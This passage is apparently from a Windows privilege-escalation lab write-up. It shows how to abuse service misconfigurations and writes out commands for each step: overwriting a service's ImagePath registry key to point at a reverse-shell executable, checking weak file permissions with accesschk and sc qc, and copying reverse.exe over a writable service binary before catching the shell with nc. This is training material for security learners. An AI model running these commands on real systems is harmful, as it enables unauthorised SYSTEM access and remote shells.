 Overwriting the ImagePath registry key to point to the reverse.exe executable we created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

<figure><img src=".gitbook/assets/image (23) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

Start nc and catch the connection.

### 4 - Service Exploits - Insecure Service Executables

#### Detection

Run winPEAS again with the same servicesinfo arguments.

<figure><img src="https://miro.medium.com/v2/resize:fit:525/1*xxY-JLNJCPGzSJN_NpxoNA.png" alt="" height="77" width="700"><figcaption><p>1 - file permission</p></figcaption></figure>

We see a "filepermservice.exe" that "Everyone" has "AllAccess", lets confirm this with "accesschk.exe".

`.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"` - and "BUILTIN\Users" has "RW" access.

<figure><img src=".gitbook/assets/image (24) (1).png" alt=""><figcaption><p>2 - users has RW access</p></figcaption></figure>

We can also see that whe we execute the file, we will get Local System privs.

`sc qc filepermsvc`&#x20;

<figure><img src=".gitbook/assets/image (25) (1).png" alt=""><figcaption><p>3 - we'd get Local System on execution</p></figcaption></figure>

`copy reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y` -

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption><p>4 - copied successfully</p></figcaption></figure>
